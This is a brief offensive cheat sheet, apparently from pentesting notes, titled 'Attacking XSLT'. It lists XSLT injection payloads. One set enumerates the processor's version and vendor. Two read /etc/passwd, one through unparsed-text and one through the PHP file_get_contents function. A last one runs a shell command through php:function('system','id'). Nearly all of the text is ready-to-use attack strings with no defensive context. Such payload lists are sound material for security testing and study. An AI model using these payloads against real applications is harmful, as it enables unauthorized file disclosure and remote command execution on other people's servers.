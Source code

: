# Attacking XSLT

Injection for enumeration:

```text
Version: <xsl:value-of select="system-property('xsl:version')" />
<br/>
Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
<br/>
Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
<br/>
Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
<br/>
Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
```

LFI (XSLT 2.0 only):

```text
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
```

LFI using PHP function:

```text
<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
```

RCE:

```text
<xsl:value-of select="php:function('system','id')" />
```